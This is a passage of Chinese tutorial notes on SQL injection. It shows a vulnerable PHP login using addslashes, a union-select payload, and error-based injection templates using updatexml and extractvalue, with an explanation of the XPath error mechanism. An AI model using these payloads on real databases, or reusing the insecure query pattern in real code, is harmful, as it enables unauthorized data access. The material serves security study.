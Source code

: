 ```php
$username=addslashes(@$_POST['username']);//非常安全的转义函数
$password=addslashes(@$_POST['password']);
$sql="select * from users where username='$username' and password='$password';";
$rs=mysqli_query($conn,$sql);
if($rs->fetch_row()){
    $_SESSION['username']=$username;
}else{
    echo 'fail';
}
create table users(
  username varchar(20),
    password varchar(20)
)
```

# 5 联合查询

**特点**

将查询的结果显示出来

**利用**

- 判断注入点闭合情况
- 通过`order by`查列数
- 通过union进行联合查询

```sql
' union select 1,2,database()--
```

# 6 报错注入

#### 6.1 updatexml和extractvalue

**适用版本：**5.1.5+

updatexml

```
select xxx or updatexml(1,concat(0x7e,payload,0x7e),1)
```

extractvalue

```
select 1,2,extractvalue(1,concat(0x7e,payload,0x7e))
```

原理：

> updatexml原理：（Xpath报错， updatexml与extractvalue对xml进行查询和修改，extractvalue(xml_str ,
>
> Xpath) 函数,按照Xpath语法从XML格式的字符串中提取一个值，如果函数中任意一个参数为NULL,返回
>
> 值都是NULL，但如果我们构造了不合法的Xpath ，MySQL便会出现语法错误，从而显示出XPath的内
>
> 容）[sql报错注入：extractvalue、updatexml报错原理-阿里云开发者社区 (aliyun.com)](https://developer.aliyun.com/article/692723)
>
> extractvalue原理：Xpath报错， updatexml与extractvalue对xml进行查询和修改，extractvalue(xml_str ,Xpath) 函数,按照Xpath语法从XML格式的字符串中提取一个值，如果函数中任意一个参数为NULL,返回
>
> 值都是NULL，但如果我们构造了不合法的Xpath ，MySQL便会出现语法错误，从而显示出XPath的内容）
